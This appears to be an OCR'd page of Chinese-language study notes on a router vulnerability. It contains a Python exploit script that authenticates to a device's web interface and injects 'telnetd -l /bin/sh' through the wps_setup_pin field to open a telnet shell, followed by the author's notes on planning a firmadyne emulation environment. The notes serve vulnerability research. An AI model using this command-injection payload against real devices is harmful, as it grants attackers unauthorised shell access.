 ```python

password = hashlib.md5(PASSWORD.encode("utf-8")).hexdigest().upper() # 大写MD5
encoded = "%s:%s" % (password, COOKIE)  #格式化 密码和cookite
encoded = hashlib.md5(encoded.encode("utf-8")).hexdigest().upper()  #再次大写MD5 

#封装基础数据头 
#operation=write&option=connect&wps_setup_pin=11480723%3Btelnetd+-l+%2Fbin%2Fsh

data = [("operation", "login"), ("encoded", encoded), ("nonce", COOKIE)]


# Payload
data_inject = [
    ("operation", "write"),
    ("option", "connect"),
    ("wps_setup_pin", "11480723;telnetd -l /bin/sh"), #命令执行，telnetd  -l /bin/sh 开启telnet服务
]


with requests.Session() as s:
    response = s.post(
        "http://%s/data/login.json" % HOST, headers=headers, cookies=cookies, data=data
    ) #登录模块，进行验证登录
    print(response.text)

    # An authorised request. 正常合法请求
    r = s.get("http://%s" % HOST, headers=headers, cookies=cookies)
    # print (r.text)
    
    #对该页面进行 setup 文件设置
    r = s.post(
        "http://%s/data/wps.setup.json" % HOST,
        headers=headers,
        cookies=cookies,
        data=data_inject,
    )

tn = telnetlib.Telnet(HOST)
tn.interact()    #interact 启动子进程，进行控制，可以与telnet ssh 等进行 命令交互
```
-------明白大概是针对 命令行进行url 进行命令注入，但是确切的原理点不明确

--------同时不太明确是 如何 进行 fuzz 出来的 或者说 是如何 对其进行挖掘

正常思路：搭建漏洞环境，攻击测试，测试调试分析

下一部分先明确环境问题

firmadyne 框架中 binwalk对于大部分固件提取上没问题，但是firmadyne对于80%的固件运行有问题，需要二次开发。

提取环境为ubuntu14.04 

提取的固件如下
